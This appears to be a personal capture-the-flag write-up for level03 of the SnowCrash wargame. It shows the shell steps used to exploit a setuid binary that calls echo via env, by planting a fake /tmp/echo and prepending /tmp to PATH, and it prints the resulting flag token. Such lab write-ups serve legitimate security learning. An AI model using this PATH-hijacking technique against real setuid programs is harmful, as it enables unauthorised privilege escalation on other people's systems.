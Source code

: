 # Flag 03
- ll
- found
`-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03*`

- try to cat -> not interesting
- try to strings it -> I think its a binary, so should to run it
```
level03@SnowCrash:~$ ./level03 
Exploit me
```

- try again with strings
`/usr/bin/env echo Exploit me`

- search in google -> https://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code/8304447

- So the vulnerable in this binary is:
  - we can override `PATH` var to redirect to my own `echo` because echo executed using `en` not treated as built-in.

  - I will create my own `echo` to ex `/bin/getflag` and add it to `PATH`

- `echo "/bin/getflag" > /tmp/echo`
- `chmod +x /tmp/echo`
- `PATH=/tmp:$PATH`
- `./level03`

- Done: Check flag.Here is your token : qi0maab88jeaj46qoumi7maus


## Abstract
- Password flag03: 
- Password level04: qi0maab88jeaj46qoumi7maus


